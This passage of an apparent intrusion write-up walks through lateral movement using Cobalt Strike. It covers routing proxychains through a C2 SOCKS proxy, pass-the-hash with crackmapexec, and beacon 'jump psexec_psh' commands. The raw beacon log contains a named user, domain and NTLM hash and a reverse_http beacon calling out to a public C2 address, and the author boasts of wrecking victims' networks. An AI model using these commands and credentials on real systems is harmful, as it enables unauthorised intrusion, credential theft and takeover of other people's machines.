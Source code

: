 Edit the `proxychains.conf` file and edit it at the last line to include your C2 (the teamserver) IP address (you can use `nano` instead to make your life easier user)
```
$ vim /etc/proxychains.conf

socks4	<C2_IP> 8888
```

While the SOCKS Proxy server is up and running now we need to interact Cobalt Strike and check with credentials one by one which you can navigate it on the toolbar easily. Go to **View** -> **Credentials** then select one of them and click **Edit** then copy the username and the NT hash to perform **Pass the Hash** technique.

Then execute it with `crackmapexec` but run it as root!

```
$ sudo -s
# proxychains -q crackmapexec smb -u <username> -H <nt_hash> -d <domain> <IP>/<CIDR>
```

Here's what it looks like:

![[crackmapexec-creds-pth-test.png]]

With that we can run `psexec` (32-bit), `psexec_psh` (powershell one-liner 32-bit) or `psexec64` (64-bit) and the following syntax looks like this:

```
beacon> jump <exploit> <IP> <listener>
```

Now for whatever the reason is why SMB beacon bind shells just don't work on these machines during the time. I thought it could be something that isn't configured properly to communicate between the peers we use just used HTTP listener to pop the machines and it works. Weird but I'm not sysadmin I just like to penetrate their networks and fuck it up when I see it lulz.

```
beacon> pth SHMC\sergeev.ma 924ec7e19e5de227b76184d71a231c1b
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:sergeev.ma /domain:SHMC /ntlm:924ec7e19e5de227b76184d71a231c1b /run:"%COMSPEC% /c echo 973013b9c69 > \\.\pipe\ac4b72" command
[+] host called home, sent: 31 bytes
beacon> jump psexec_psh RDPSRV sex
[*] Tasked beacon to run windows/beacon_http/reverse_http (173.249.45.143:80) on RDPSRV via Service Control Manager (PSH)
[+] received output:
Started service bc26d6d on RDPSRV
[+] received output:
user    : sergeev.ma
domain  : SHMC
program : C:\Windows\system32\cmd.exe /c echo 973013b9c69 > \\.\pipe\ac4b72
impers. : no
NTLM    : 924ec7e19e5de227b76184d71a231c1b
 |  PID  12064
 |  TID  16624
 |  LSA Process is now R/W
 |  LUID 1 ; 2665784146 (00000001:9ee4a352)
 \_ msv1_0   - data copy @ 000001E8E06E0290 : OK !
 \_ kerberos - data copy @ 000001E8E02457D8
  \_ aes256_hmac       -> null
  \_ aes128_hmac       -> null
  \_ rc4_hmac_nt       OK
  \_ rc4_hmac_old      OK
  \_ rc4_md4           OK
  \_ rc4_hmac_nt_exp   OK
  \_ rc4_hmac_old_exp  OK
  \_ *Password replace @ 000001E8E1E15B48 (32) -> null
```

